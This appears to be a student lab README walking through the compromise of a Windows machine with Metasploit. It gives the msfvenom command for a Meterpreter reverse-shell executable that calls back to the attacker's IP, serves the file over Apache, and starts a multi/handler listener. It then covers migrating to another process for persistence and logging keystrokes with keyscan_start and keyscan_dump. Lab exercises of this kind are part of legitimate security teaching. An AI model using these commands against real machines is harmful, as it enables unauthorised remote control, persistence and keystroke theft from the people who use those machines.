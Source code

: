 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
# PROGRAM:
Find the attackers ip address using ifconfig

# OUTPUT:
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/b9eb08be-ee84-48f6-9b95-f75a5ef4c10a)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/32f0f4c0-bd07-48f6-b56b-c6d93b4ed080)
Start apache server sudo systemctl apache2 start and Check the status of apache2
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/a258bd8b-ecc2-4e66-a4ba-3b9e68d89f21)
# Invoke msfconsole:

# OUTPUT:
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/be166b27-1e3d-4627-b73e-390ecff8d1fa)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/e2dfae3b-5418-4315-a71b-14d78539e5fa)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/3c5900dc-2258-4e7f-a1bd-d977f429ae8d)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/8f30eba6-d8de-497e-a41b-99849624294c)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/4a21515f-43e0-4c6e-83c6-fa4c3b92446b)
keyscan_dump Shows the keystrokes captured so far
![Uploading image.png…]()

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
